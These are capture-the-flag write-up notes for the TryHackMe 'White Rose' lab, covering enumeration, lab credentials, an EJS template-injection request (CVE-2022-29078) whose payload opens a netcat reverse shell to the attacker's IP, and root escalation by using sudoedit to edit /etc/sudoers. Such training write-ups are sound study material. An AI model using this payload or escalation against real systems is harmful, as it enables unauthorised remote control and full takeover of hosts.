 <code>
https://tryhackme.com/r/room/whiterose

## White Rose

### Enumeration
┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ nmap -A -Pn -p80 cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 05:30 EST
Nmap scan report for cyprusbank.thm (10.10.211.123)
Host is up (0.035s latency).
rDNS record for 10.10.211.123: whiterose.thm

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ ffuf -w ../../www/wordlists/Subdomain.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 
found admin.cyprusbank.thm


### Use crentials
Olivia Cortez:olivi8


#### Found

http://admin.cyprusbank.thm/messages/?c=0

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'

### Use crentials


in /setting found this

[ CVE-2022–29078 ] → EJS Server Side Template Injection RCE → PoC ( Link to the Writeup Below )


### Get reverse shell

POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3Ad_bGl7Fk6eaYR2o2ysYtiIvEecJP7U7b.E9%2BCA%2Fmz0yjQrd2hHxoKSw1cxNreXYM0k%2BmuDqIVvEY
Upgrade-Insecure-Requests: 1

name=xx&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc  10.9.1.144 4445 -e sh');



╔══════════╣ Analyzing Env Files (limit 70)
-rw-rw-r-- 1 web web 59 Jul 16  2023 /home/web/app/.env                                                             
MONGO=mongodb://localhost
SECRET=secureappsecret
PORT=8080


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Matching Defaults entries for web on cyprusbank:                                                                    
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

### Privescalation

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------


export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
Copied!
In vim editor, add the following line in /etc/sudoers.
Assume the current username is “john”

web ALL=(ALL:ALL) ALL
Copied!
After that, we can escalate to root privilege.

sudo su root

  
<\code>

